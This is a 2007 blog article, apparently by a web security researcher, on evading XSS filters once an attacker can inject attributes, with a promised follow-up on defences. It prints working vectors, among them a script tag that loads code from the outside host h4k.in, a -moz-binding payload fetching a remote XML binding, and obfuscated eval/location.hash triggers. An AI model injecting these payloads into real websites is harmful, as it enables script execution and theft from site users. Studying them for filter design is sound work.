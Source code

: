 ```yaml
---
title: The New Dawn Of Filter Evasion
author: mario-heiderich
date: Fri, 13 Jul 2007 06:57:16 GMT
template: post.jade
---
```


This article is about the most important phase when attacking web applications. The phase when the markup has just been broken and the attacker will try to inject his own markup, script code or other data - let's call it the PMBP (post-markup-breaking-phase). This phase is mostly possible to occur when quotes aren't correctly sanitized or when input is placed between two tags. In this article we will set the focus on the first variant - the attribute injection. And we will prove that protecting your markup from being broke into is the very most important task in client side security.

## Basic filtering

Many developers use standard filter functions to sanitize their output. Mostly a good idea, but the developer has to know what his filters and the attacker is capable of. Some say that the developer is to blame for the bugs, because he/she doesn't implement properly the security examples as they come from the books. Developers usually does not have enough _time_ and knowledge for cutting edge security research. Mostly of the time they need to chose between stripping the tags, converting HTML and special characters to entities, urlencoding the input, using approaches like [escapeshellcmd()](http://php.net/manual/en/function.escapeshellcmd.php) or even combining those filtering methods, in order to secure the applications they are working on. Usually those methods aren't used and combined with exact knowledge and so they tear open security holes or even cripple the user experience in some situations. Did you know that PHP's [escapeshellcmd()](http://php.net/manual/en/function.escapeshellcmd.php) leaves the characters `.-=a-Z0-9, space and /` untouched? This function is recommended by several books as a good filter alternative.

## Get it running

So what is the attacker able to do when he/she breaks out the markup, and injects new tags and attributes? When new tags can be injected the site is considered owned - even if there are filters that block script tags and iframes. It is interesting to look at the attributes. Depending on the browser - we're talking about the two major ones in this article - there are several ways to inject attributes that will fire JavaScript without requiring user interaction. If the attacker breaks out a tag which points to binary contents, like a link tag, an img tag or even an iframe, embed or object we can use the onerror handler and provide a crippled source attribute. Once the browser tries to load a source like _xxx_ it will fail and fire the event - for which we already injected a handler (javascript function call). On the other hand, we can utilize the style tag to create XSS without user interaction. Both gecko based browsers and all important IE versions ship proprietary selectors and methods to execute JavaScript within a style tag or attribute - just to name a few, we have: _-moz-binding_ and _expression()_. In order to exploit these situations the attacker has to inject more code. I've seen several websites where developers seemed to know that and had implemented filters that stripped a bunch of special chars - sometimes dot and brackets, sometimes other stuff - to avoid the injection of active code. Unfortunately, there's a way to circumvent all of them.

## Circumvent the ignorance

One of the most common filters - never understood why - is the stripping of the pattern _http://_. It seems thousands of developers out there believe that without this string it's not possible to get an external inclusion running and furthermore without an external inclusion you can't do much bad stuff on the targeted application. This is not true. It has been moths ago since I've published a miniaturized vector for script inclusions - 20 characters of length which does not have the _http://_ string. The cross browser version is 27 characters in length. Same goes for filtering the dot, brackets, spaces etc. Here is an example:

	<script src=//h4k.in 

Some filters transform all user input to uppercase letters - which is more useless than stripping _http://_ string. A major portal about a server side programming languages once suffered from a bad filter which stripped out all event handlers beginning with _on\w+_ and _style_. This is good example. Plain stripping will **never** make sense - the filter was easily circumvented by the following:

	sstyle="foobar"tstyle="foobar"ystyle="foobar"lstyle="foobar"estyle="foobar"=-moz-binding:url(http://h4k.in/mozxssc.xml#xss)>foo

But it's even getting better. Some weeks ago a pretty new and very intelligent kind of filter evading vectors came to light - these vectors were capable of carrying large payloads in totally stealth mode. These vectors does not require externally hosted scripts to perform the task. This is the reason why they are called [self contained XSS](/blog/one-drop-on-a-spider-web).

## CSO's nightmare

Self contained XSS is mostly based on the fact, that it's possible to pass values via URL, that are seen by the client only, but not by the server. Those values are called fragment identifiers. Everything passed behind the URL hash (#) is only visible to the client which includes the JavaScript runtime engine. So, the attacker just needs to inject a code snippet that evaluates the contents of this part of the URL - which is mostly very short and contains no information of what the real payload consists of. Due to the very dynamic nature of JavaScript it is possible to create _myriads_ of variants of those payload triggers and in combination with browser peculiarities the possibilities of creating these triggers become uncountable. Here is an exmaple

	eval.call(this,unescape.call(this,location))
	code:_=eval,__=unescape,___=document.URL,_(__(___)) code:with(location)with(hash)eval(substring(1))

Of course, it's also possible to rip these functions apart, shuffle their fragments and compose them back together at the end like this:

	l=0||'str',m= 0||'sub',x= 0||'al',y= 0||'ev',g= 0||'tion.h',f= 0 ||'ash',k= 0||'loca',d=(k)+(g)+(f),a

## Conclusion and credits

So - why are we showing all those vectors and talking about all the possibilities to hide, obfuscate possible attacks and evade filter mechanisms? To prove a point, I must say! Once the attacker breaks the markup he/she becomes in charge of that content - whether there's a filter between the application and the user or not. There's no way of finding a perfect balance between effective filtering and not crippling the user's experience. To make it short - the PMBP **must** never happen. In order to make this article a dirty cliffhanger - in the next part we will talk about how to avoid this exact phase. We'll learn how to make sure the user won't be annoyed by your filter and still guaranteeing stalwart security too. Credits for the shown vectors go the author, the [PHPIDS Group](http://groups.google.de/group/php-ids/), [Giorgio Maone](http://maone.net/), [Kishor](http://wasjournal.blogspot.com/), [Martin Hinks](http://the-mice.co.uk/switch/), [Christian Matthies](http://christ1an.blogspot.com/), [sirdarckcat](http://www.sirdarckcat.net/) and the guys from [sla.ckers.org](http://sla.ckers.org/forum/).

